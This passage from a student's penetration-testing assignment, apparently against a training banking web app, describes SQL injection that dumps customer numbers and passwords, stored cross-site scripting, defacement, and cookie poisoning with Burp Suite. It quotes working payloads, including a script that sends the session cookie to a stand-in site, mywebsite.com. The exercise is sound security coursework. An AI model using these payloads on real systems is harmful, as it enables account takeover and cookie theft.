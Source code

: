 The browser displayed the branch information holding table, with the table name
“customer” filling up the “Address” column, and the “customer” table column or field
names filling up “City” column. The field names from the “customer” table were
“address”, “begbal”, “city”, “custnum”, “deposits”, “email”, “endbal”, “fname”,
“lname”, “mname”, “password”, “phone”, “state”, “withdrawals”, “zip”.

In the Account Login page (login.asp), the credentials being asked for were an “Account
Number” and “Password". From the retrieved column names from the “customer”
database table, “custnum” and “password” seemed to be the required fields of interest
with regards to the login requirements. Therefore, for my next SQL injection test, I used
the attack string, ‘ UNION SELECT ‘1’, custnum, password, ‘1’, ‘1’, ‘1’ FROM customer -- .
The browser displayed the branch information holding table, showing the data entries
from the “custnum” and “password” fields, in the “Address” and “City” columns
respectively. Randomly picking out 3 sets of “custnum” and “password” information
(“103640176” and “chipper”, “103641196” and “tamiko”, “103643587” and “cardikrx”)
granted me access into the application through the Account Login page.
T EST 5: C ROSS S ITE S CRIPTING

I logged in as a customer (using account number: 103640176, and password: chipper)
and navigated to the customer forum page (forum.asp). To carry out the cross-site
scripting test, I clicked on the “Post a New Item” link in the page. This takes me to the
forumpost.asp page. In the form on this page, I enter in the “Title” text-field, “A Test”,
and in the “Message” text-field, “<script>prompt(‘Is this vulnerable?’);</script>”. I then
clicked on the submit button. This took me back to the forum.asp page. In the table on
this page, holding information about posted forum topics, I see the title of my post at
the top, which appears is now link. Clicking on this link, loads a page with a prompt with
the question “Is this vulnerable?".

I carried out another cross-site scripting test, this time attempting to steal a cookie from
the application. I created a new forum item, entering “I Want a Cookie”, for the “Title”,
and, “Please give me a cookie.<script>alert(document.cookie);</script>”, for the
“Message”. Back on the forum.asp page, clicking on the “Title” link, “I Want a Cookie”,
8COMP40770 Assignment 4: Penetration Testing
Student Number: 18203449
Kingson Chinedu Odogwu
4 th February, 2019
in the table, loads a page with a popup window displaying the application cookie
information. If I had a website of my own, (i.e. mywebsite.com), I could have used the
following string instead, “<script>location.href = ‘http://mywebsite.com/index?item=‘ +
document.cookie);</script>“ which would cause the page to redirect to my website
where I use server-side code to save the cookie item from the “item” URL query
parameter.

In my next cross-site scripting test, I attempted a defacement attack. I created a new
forum item, entering “What is Happening", for the “Title”, and, “<script>var body =
document.body.parentElement; body.innerHTML = “I KNOW WHAT YOU DID LAST
SUMMER!!!”;</script>”, for the “Message". Back on the forum.asp page, clicking on the
“Title” link, “What Is Happening”, in the table, loads a page, which contains only the text
“I KNOW WHAT YOU DID LAST SUMMER!!!”
T EST 6: C OOKIE P OISONING

I logged in as a customer, Darrell Cross (using account number: 103640176, and
password: chipper), and then using Burp Suite, I intercept the request I made to
navigate to the userinfo.asp page, after clicking the “Account Contact Information” link
on the welcome.asp page.

In Burp Suite, under the Params tab, which is under the Intercept tab, which is also
under the Proxy tab, I see 2 Cookies, “ASPSESSIONIDQGQGQIXK” and “custnum”. The
former’s value is a string of alphabets, and the latter’s value is 103640176, Darrell Cross’
account number. I change the “custnum” Cookie value to 103643587, which was one of
the account I had randomly picked out in previous penetration tests. I then click the
Forward button, and return to the browser.

The userinfo.asp page is loaded in the page, but showing the account details for Dale